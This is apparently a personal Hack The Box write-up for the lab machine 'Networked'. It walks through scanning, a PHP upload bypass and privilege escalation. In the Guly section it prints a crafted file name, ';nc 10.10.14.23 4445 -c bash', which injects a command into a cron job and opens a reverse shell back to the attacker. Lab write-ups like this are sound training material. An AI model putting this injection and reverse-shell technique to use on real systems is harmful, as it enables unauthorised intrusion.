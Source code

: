 ```yaml
---
title: HTB - Networked
tags: [Hacking, HTB, Security, Linux, PHP, Easy]
style:
color:
description: Here is my write up for the box Networked via Hackthebox.
---
```


I dont remember exactly when I popped this box, but I believe it was one of the first ones I did.

## 1. Enumeration

Alright, lets get down to it. First things first, nmap scan.

`nmap -Pn -sVC 10.10.10.146`

![nmap](../images/nmap_networked.png "nmap scan")

While that was running, I went ahead and started running both a dirb and nikto.

`dirb http://10.10.10.146 -r`

![dirb](../images/dirb_networked.png "dirb scan")

`nikto -h http://10.10.10.146`

![nikto](../images/nikto_networked.png "nikto scan")

## 2. Exploiting PHP

During the enum phase, dirb identified `backup.tar`. Downloading the tar file and unpacking it reveals the workings of `upload.php`. Since we know how `upload.php` works, we can now upload a reverse shell and bypass the checks by modifying the request via Burp.

*insert screenshot of modifying request*

## 3. Privilege Escalation to Guly

Now that we have a shell, its time to enumerate some more. First things first, lets see if `www-data` can run anything as root via the `sudo -l` command.

Bummer :(
*insert screenshot of running the sudo -l command*

Going to attempt to transfer `LinEnum` and then run it to see all the interesting things on this machine.

*insert screenshot of LinEnum output*

In the cron jobs section, we notice a job `check_attack`. Reading the contents of this cron job reveals that it checks the uploads folder in the `/var/www/html` directory. Running `ls -la` on that directory shows we dont have read/write access, but were going to try and touch a file in there anyway.

`touch test.txt`

*more screenshots*
Walla! It worked!

Now that we know we can touch a file, lets look at the code in the `check_attack` cron a little more carefully to see if we can exploit this and escalate our privileges After looking over the code, there is one line that stands out in particularly:

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

If we touch a file into the uploads directory with the following name below:

`;nc 10.10.14.23 4445 -c bash`

Everything after the `;` symbol will be treated as a completely separate command. So when the cron job runs, which is being ran under the user Guly, it will execute the nc command then open a shell back on our attacking machine.

Success!
*more screenshots*

## 4. Privilege Escalation to root

Now that we have a little higher privileges lets do some more enumeration. First things first, checking if we can run anything as root via `sudo`.

`sudo -l`
*more screenshots*

Looks like we can run the above command as root. Quick google search?

Googling `changename.sh`, we find that there is a vulnerability that leads us on the path to get root *make a in-line link to the vulnerability*.

Following the instructions about the vulnerability below, we get root:

*insert screenshot of exploiting the script*

BOOM! Hello there root shell!
*insert screenshot of root shell*

## 5. Conclusion

Overall this was a nice box. For me, the biggest hurdle was moving from www-data to the user Guly. After that it was smooth sailing.

Always remember, enumeration is your best friend! So is Google.
